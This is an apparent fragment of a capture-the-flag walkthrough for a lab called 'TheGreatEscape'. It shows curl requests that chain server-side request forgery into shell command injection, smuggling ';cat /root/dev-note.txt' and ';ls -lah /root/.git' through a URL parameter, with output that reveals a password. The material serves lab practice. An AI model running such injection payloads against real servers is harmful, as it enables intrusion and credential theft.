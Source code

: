 <br>
<p>

- fluffybunnies123<br>
- Hydra</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;cat%20/root/dev-note.txt'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

<br>
<p>

- HEAD</p>

<br>

```bash
:~/TheGreatEscape# curl 'http://xx.xxx.xx.xxx/api/exif?url=http://api-dev-backup:8080/exif?url=;ls%20-lah%20/root/.git'
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                An error occurred: File format could not be determined
               Retrieved Content
               ----------------------------------------
               curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
total 52K
drwxr-xr-x 1 root root 4.0K Jan  7  2021 .
drwx------ 1 root root 4.0K Jan  7  2021 ..
-rw-r--r-- 1 root root   19 Jan  7  2021 COMMIT_EDITMSG
-rw-r--r-- 1 root root   23 Jan  6  2021 HEAD
drwxr-xr-x 2 root root 4.0K Jan  6  2021 branches
-rw-r--r-- 1 root root   92 Jan  6  2021 config
-rw-r--r-- 1 root root   73 Jan  6  2021 description
drwxr-xr-x 2 root root 4.0K Jan  6  2021 hooks
-rw-r--r-- 1 root root  145 Jan  7  2021 index
drwxr-xr-x 2 root root 4.0K Jan  6  2021 info
drwxr-xr-x 1 root root 4.0K Jan  6  2021 logs
drwxr-xr-x 1 root root 4.0K Jan  7  2021 objects
drwxr-xr-x 1 root root 4.0K Jan  6  2021 refs
```
